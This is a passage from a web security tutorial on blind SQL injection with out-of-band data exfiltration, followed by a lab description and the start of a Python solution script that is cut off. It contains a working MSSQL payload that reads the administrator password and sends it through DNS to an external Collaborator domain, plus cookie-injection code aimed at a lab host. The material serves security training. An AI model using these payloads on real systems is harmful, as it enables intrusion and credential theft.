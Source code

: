 Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the`Administrator`user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

#### Note

There are various ways of triggering out-of-band interactions, and different techniques apply on different types of database. For more details, see the SQL injection cheat sheet.

## Lab: Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called`users`, with columns called`username`and`password`. You need to exploit the blind SQL injection vulnerability to find out the password of the`administrator`user.

To solve the lab, log in as the`administrator`user.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

```python
# Solution

import requests
from urllib.parse import quote_plus, quote

burp0_url = "https://0a20004004f896b380130352005100b6.web-security-academy.net/filter?category=Pets"
burp0_cookies = {
    "TrackingId": "AlkrYDDTZC31Wwdc",
    "session": "3r38N0CTjalkQOJwXs8wPJf6Q4bxhVhX",
}

def oast_sql(payload):
    global burp0_url
    global burp0_cookies
    modified_cookies = burp0_cookies.copy()
    modified_cookies["TrackingId"] += payload
    res = requests.get(burp0_url, cookies=modified_cookies)
    print(res.status_code)


def parse_payload(query, burp_collaborator_url):
```